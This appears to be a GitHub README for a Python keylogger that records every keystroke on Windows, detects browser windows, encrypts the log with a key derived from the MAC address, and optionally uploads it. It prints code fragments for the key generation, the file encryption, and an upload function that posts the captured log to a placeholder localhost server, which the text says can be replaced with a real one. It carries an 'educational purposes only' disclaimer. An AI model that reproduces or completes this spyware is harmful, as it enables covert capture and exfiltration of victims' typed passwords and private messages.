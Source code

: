 # Keylogger Python Script

This Python script demonstrates a keylogger that captures keystrokes on a Windows machine. The script uses the `pynput` library for listening to keyboard events and `cryptography` to encrypt the captured keystrokes. It is intended for educational purposes only and should not be used for illegal activities.

## Features:
- Captures all keypress events.
- Logs keystrokes to a file.
- Automatically flushes the buffer every 5 seconds or 100 characters.
- Encrypts the log file using `cryptography.fernet` encryption.
- Uploads the encrypted file to a server (optional).

## Prerequisites:
- Python 3.x
- Required libraries:
  - `cryptography`
  - `pynput`
  - `requests`
  - `pywin32` (for Windows API interaction)
  
You can install the required libraries using pip:

```bash
pip install cryptography pynput requests pywin32
```
## How it Works:
  - Key Generation: The script generates a unique key based on the machine's MAC address to encrypt and decrypt the log file.
  - Keylogger: Captures all keystrokes and identifies special keys like Enter, Space, and Backspace.
  - Browser Detection: Checks if the active window is a browser (Chrome, Firefox, Edge, Opera) to make browser-specific corrections in the logs.
  - Buffer Management: Keystrokes are stored in a buffer and flushed to a log file periodically or when the buffer reaches 100 characters.
  - Encryption: The log file is encrypted using the Fernet symmetric encryption method.
  - File Upload: Optionally, after encryption, the log file can be uploaded to a server.

## Code Walkthrough:

Key Generation
The machine key is generated using the MAC address, which is then base64-encoded for encryption purposes.

```bash
def generate_machine_key():
    mac_address = uuid.getnode()
    mac_str = str(mac_address).encode()
    padded = mac_str.ljust(32, b' ')
    return urlsafe_b64encode(padded)
```
## Keystroke Handling
- The handle_keypress function processes keypress events, distinguishing between regular keys and special keys (e.g., Enter, Backspace). The keystrokes are stored in a buffer.

## Encryption
- The captured keystrokes are written to a log file, which is later encrypted using the cryptography.fernet module.
```bash
def encrypt_file(filename, cipher):
    try:
        with open(filename, "rb") as f:
            data = f.read()
        encrypted = cipher.encrypt(data)
        with open(f"{filename}.encrypted", "wb") as f:
            f.write(encrypted)
        os.remove(filename)
        print(f"File encrypted: {filename}.encrypted")
    except Exception as e:
        print(f"Encryption error: {e}")
```
## Uploading the Encrypted File
After encryption, the log file can be uploaded to a server. In this case, it uses a mock URL (http://localhost:3000/upload), but this can be replaced with an actual upload server.

```bash 
def upload_file(filename):
    try:
        with open(filename, "rb") as f:
            requests.post("http://localhost:3000/upload", files={"file": f})
        print("Upload successful")
    except Exception as e:
        print(f"Upload failed: {e}")
```
## Running the Script
- To start the keylogger, simply run the script. It will start listening for keypress events, log them, and encrypt the log when you press the ESC key.

```bash
python keylogger.py
```
- Press ESC to stop the keylogger. After stopping, the log file is encrypted and can be uploaded if desired.

Disclaimer:
This script is for educational purposes only. Using this script for malicious purposes, such as capturing someone's keystrokes without their consent, is illegal and unethical. Ensure you have proper authorization before using this script.

## This repo also include the encryption and decryption tools that used . you can find documntion for those as following 






